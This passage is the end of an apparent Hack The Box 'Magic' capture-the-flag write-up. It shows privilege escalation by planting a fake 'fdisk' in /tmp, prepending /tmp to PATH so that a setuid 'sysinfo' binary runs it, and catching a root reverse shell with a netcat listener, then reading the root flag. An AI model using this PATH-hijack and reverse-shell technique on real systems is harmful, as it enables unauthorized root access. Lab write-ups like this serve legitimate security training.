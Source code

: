 Saving to: ‘fdisk2’

fdisk               [===================>]     230  --.-KB/s    in 0s      

2020-07-19 08:45:43 (44.4 MB/s) - ‘fdisk’ saved [230/230]
theseus@ubuntu:/tmp$
theseus@ubuntu:/tmp$ chmod +x fdisk
{% endhighlight %} 

Next we need to export PATH variable as /tmp:(old PATH variable) so that when `sysinfo` executable gets executed it searches for `fdisk` in tmp directory first then in rest of the path.

{% highlight bash %}
theseus@ubuntu:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
{% endhighlight %} 

Starting the nmap listener on local machine `nc -lvnp 9999`. And then running `sysinfo` executable on box.
Yeet we got a reverse shell with root.

{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Pentest/HTB/Magic]
└──╼ $rlwrap nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.169] from (UNKNOWN) [10.10.10.185] 40024
# whoami
root
# cat /root/root.txt | wc -c
33
{% endhighlight %} 

###### Hope you learned something new, if you face any issues / have any query, feel free to contact me on social media.